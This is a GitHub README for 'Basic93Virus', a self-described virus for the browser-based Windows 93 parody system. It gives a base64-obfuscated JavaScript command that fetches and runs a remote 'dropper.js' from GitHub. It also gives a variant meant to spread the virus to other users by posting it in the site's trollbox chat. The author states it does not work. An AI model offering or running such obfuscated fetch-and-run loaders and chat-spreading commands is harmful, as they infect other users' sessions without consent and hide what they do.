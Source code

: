 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js data:application/javascript;base64,JGxvYWRlcihbJ2h0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9PdXRSaXRlL0Jhc2ljOTNWaXJ1cy9tYWluL2Ryb3BwZXIuanMnXSwgJG5vb3ApOw==`    
Spread via trollbox as message:    
`/exe js data:application/javascript;base64,JGxvYWRlcihbJ2h0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9PdXRSaXRlL0Jhc2ljOTNWaXJ1cy9tYWluL2Ryb3BwZXIuanMnXSwgJG5vb3ApOw==`

## Does it work?
no
